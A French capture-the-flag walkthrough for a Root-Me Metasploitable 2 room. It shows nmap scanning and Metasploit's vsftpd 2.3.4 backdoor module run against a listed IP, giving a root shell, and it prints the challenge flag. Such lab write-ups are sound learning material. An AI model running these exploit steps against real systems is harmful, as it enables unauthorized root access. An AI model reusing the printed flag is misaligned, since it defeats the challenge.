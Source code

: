 #CTF->ROOTME
#SALLE 8:VALIDATION
#CTF-ALL-THE-DAY
#-METASPLOITABLE 2
#LE FLAG EST CACHÉE DANS /passwd
#TIME:1H:00Min:00s
#Ted
̀ bash-line`
 
 Tout d'abord avec le lien de la page l'on cherche l'adresse ip avec la commande :
 ̀̀
 #COMMANDS-LINE
 
#host ctf08.root-me.org
#output:ctf08.root-me.org has address 212.129.39.172

Je demarre les outils `nmap && metasploite`

#nmap COMMANS-LINE:
nmap -T4 -A -v ctf08.root-me.org 
~or~
nmap -T4 -A -v 212.129.39.172

#output:
SUITE aux resZultats sortie nous remarquons une liste de ports ouverts (d'ailleurs c'est chelou il y en a un peu trop ,c'est vrai y a 65535 ports mais quand même)

`  
Discovered open port 5900/tcp on 212.129.39.172
Discovered open port 21/tcp on 212.129.39.172
Discovered open port 23/tcp on 212.129.39.172
Discovered open port 111/tcp on 212.129.39.172
Discovered open port 53/tcp on 212.129.39.172
Discovered open port 3306/tcp on 212.129.39.172
Discovered open port 80/tcp on 212.129.39.172
Discovered open port 445/tcp on 212.129.39.172
Discovered open port 139/tcp on 212.129.39.172
.
.
.
Completed SYN Stealth Scan at 01:32 ,33.45s elapsed (1000 total parts)
Scanning 22 service on ctf08.root-me.org (212.129.39.172)
.
.
`
#metasploit 
#COMMANDS-LINE
#Input :
`msfconsole`
 (faut avouer que la maniere dont ça se charge est cool et que l'art ASCII qui s'affiche a chaque demarrage est génial (en plus a chaque démarrage y en a un nouveau)

#search exploit
L'on cherche une faille parmis les port ouvert ,dans mon cas je prend le port 21

#Info

Port--Protocole--Etat--Service--Version 
21     tcp       open   ftp     vsftpd 2.3.4

#Metasploit

#COMMAND-LINE:
`
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
`
Alors la faille existe bien en plus c'est la même version pour le "vsftpd"

Maintenant nous allons utiliser l'exploit de `msf` pour pouvoir l'exploiter sur la machine virtuelle

`
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
`
Heuresement que l'on a l'adresse ip de la machine au cas je verifie la mienne
AVEC La commande `show options `
#OUTPUT:
`
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options 

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic

`
Bon maintenant l'on eaucune adresse  ne nous ait donnée donc l'on va remplacée l'adresse ip donnée par celle sensée etre locale
#COMMANDS-LINE:set rhost 212.129.39.172
#~*_*~t3d~#
#output
rhost => 212.129.39.172

L'on reverifie si c'est okay avec un autre "show options"

#ouput:
`
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options 

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  212.129.39.172   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
`
Maintenant que ça l'air bon on va faire un exploit pour tenter de voir se qu'on obtiendra de l'adresse ip sur le port 21 (212.129.39.172:21)
#COMMANS-LINE:
exploit
Personnellement je trouve la sortie un peu longue ,mais parmis les lignes sortantes il y en a une assez interessantes ou il etait specifié qu'un shell s'ouvrait
sur l'adresse 10.0.2.15:37997
Alors je tente d'obtenir des info sur ce shell 
 
#COMMANS-LINE:
shell
Bon la des infos sur python 3 apparaissent et l'on nous donne la main en mode root evidemment sur le (sh-3.2). 
Alors je reviens aux bases (â mes bases en linux )
Un simple `ls` a suffit et les dossiers et fichiers ont été listés  et grâce l'indice de depart l'on se souvient que le flag se retrouve dans le fichier "passwd"
qui a été aussi listée donc ,j'affiche l'interieur avec un "cat " et j'observe le flag.


#FLAG:a0cc77b5574a1304b4318b73d930c693



















